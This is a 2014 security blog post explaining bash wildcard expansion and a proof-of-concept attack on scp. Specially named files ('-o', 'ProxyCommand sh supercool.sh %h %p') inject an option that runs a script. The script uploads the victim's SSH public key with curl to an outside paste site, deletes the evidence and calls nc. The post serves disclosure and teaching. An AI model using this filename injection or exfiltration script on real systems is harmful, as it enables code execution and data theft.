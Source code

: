 ```yaml
---
title: 'Exploiting Wildcard Expansion on Linux'
subtitle: ''
summary: ''
authors:
- admin
tags: [Linux, bash, security]
categories: []
date: "2014-06-21T00:00:00Z"
lastmod: "2014-06-21T00:00:00Z"
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal point options: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight
image:
  caption: ''
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []

---
```


# Wildcard Expansion

When you type a command with a “*“ in bash, bash expands it to the list of all files in the directory and passes them all as arguments to the program. For example, “rm *“ , will remove files in the current directory.

## Filenames Misinterpreted as Switches

Most command line programs can take switches that affect how they work. For example, the ls command, when ran without any switches, looks like the output below.

```bash
[stephen@superX foo]$ ls
asdf.txt  foobar  -l
```

Now let’s say you want to know what group and user owns these files. You can pass “-l” to the ls program to figure that out, which looks like this:

```bash
[stephen@superX foo]$ ls -l
total 0
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 -l
```

Notice there is a file named -l in our directory. Let’s try “ls *“ now and see what happens:

```bash
[stephen@superX foo]$ ls *
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
```

The last two outputs are similar, but the output of “ls *“ is different. It is missing the “-l” file, which was interpreted by ls as the “-l” switch. There’s no way for the ls program to tell that the “-l” came from the wildcard expansion and wasn’t actually what we in intended. It’s equivalent to running:

```bash
[stephen@superX foo]$ ls asdf.txt foobar.txt -l
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
```

## Security Problems

Misinterpreted filenames can lead to problems when someone runs a wildcard expansion on a folder they download from the Internet, for example, without first checking the filenames. Could this be used to attack someone’s computer? Can we make a program do something bad by having specially-named files in the directory? Yes, it turns out that we can.

## Known Issue

This problem is well-known, but it still surprises a lot of people. There has been some discussion of it [on the Full Disclosure mailing list](http://seclists.org/fulldisclosure/2011/Sep/190).

Generally, we’re told that this is a “feature”, and that doing anything else would be even more surprising and difficult to understand to someone who really understands what’s going on. Even if that’s the case, if lots of people misunderstand it, and those people can be exploited as a result, then it should be considered a security vulnerability, either in the design or in the documentation.

The posting to Full Disclosure demonstrates how wildcard expansion can be abused to make a user delete files they didn’t intend to. That’s annoying, but isn’t too severe a problem. What we really want is to turn an improper use of “*“ into code execution, and that’s what we’ve done.

## Proof of Concept Exploit

To show that it’s possible to turn this problem into an arbitrary code execution attack, we attack the “scp” command. The scp command provides the “-o” option, which passes a configuration option to ssh. Luckily, ssh has a configuration option that involves running a command. We can take advantage of this to get our script running.

Suppose we have control over the contents of a directory, and inside that directory our victim will run the following command. Imagine, for example, that the user just downloaded a web application’s source code from the attacker’s website and is uploading the files to their web server.

```bash
$ scp * user@example.org:/var/www/
```

To exploit this command, in the directory we place three files:

“-o” - SCP will interpret this file as the “-o” switch.
“ProxyCommand sh supercool.sh %h %p” - SCP will interpret this file’s name as the argument to the “-o” switch.
“supercool.sh” - The script that will run, containing the attacker’s code.
“zzz.txt” - Another file in the directory which serves no purpose for the exploit.

It’s okay to have more files in the directory, so long as none of their names fall between “-o” and “ProxyCommand” in alphabetical order, or come before “-o” in alphabetical order (bash ignores the leading dash when sorting the names, and is case-insensitive). This limitation probably makes actual attacks difficult, since the very suspicious “ProxyCommand” file will show up near the top of the directory listing, if the user does look.

Inside “supercool.sh”, we have a script that will do what “ProxyCommand” is supposed to do, along with some malicious commands:

```bash
#!/bin/sh
# Upload their SSH public key to the Internet, and put a scary message in /tmp/.
echo "By @DefuseSec and @redragonx..." > /tmp/you-have-been-hacked.txt
echo "This could have been your private key..." >> /tmp/you-have-been-hacked.txt
curl -s -d "jscrypt=no" -d "lifetime=864000"                                \
       -d "shorturl=yes" --data-urlencode "paste@$HOME/.ssh/id_rsa.pub"    \
       https://defuse.ca/bin/add.php -D - |                                \
       grep Location | cut -d " " -f 2 >> /tmp/you-have-been-hacked.txt
# Delete evidence of our attack.
rm ./-o ProxyCommand\ sh\ supercool.sh\ %h\ %p
echo > ./supercool.sh
# Do what ProxyCommand is supposed to do.
nc -p 22332 -w 5 $1 $2
```

When the victim runs their scp command, it will appear successful:

```bash
$ scp * user@example.org:/var/www/
supercool.sh
zzz.txt
```

But, when the user checks their /tmp/ directory, they’ll see our message:

```bash
$ cat /tmp/you-have-been-hacked.txt
By @DefuseSec and @redragonx...
This could have been your private key...
https://defuse.ca/b/QQ3nxADu
```

You can download the entire proof of concept directory in a .zip file [here](https://dicesoft.net/publicDownloads/poc.zip). Be careful, and have fun!

This was written by [@RedragonX](https://twitter.com/redragonx) and [@DefuseSec](https://twitter.com/defusesec).